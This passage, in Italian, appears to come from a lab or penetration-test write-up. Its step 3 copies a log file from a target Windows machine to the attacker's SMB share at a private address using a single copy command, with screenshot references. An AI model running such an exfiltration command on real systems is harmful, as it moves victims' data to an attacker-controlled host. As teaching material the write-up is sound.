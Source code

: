 ![Descrizione immagine](./images/Temp.png)

### 3. Copia del File log.txt tramite SMB

Utilizzo il comando copy di Windows per copiare il file "log.txt" dalla macchina bersaglio alla condivisione SMB sul mio dispositivo. Di seguito il comando eseguito sulla macchina del bersaglio:

```cmd
copy C:\Windows\temp\log.txt \\10.0.2.15\hax\log.txt
```

![Descrizione immagine](./images/Dopocopia.png)
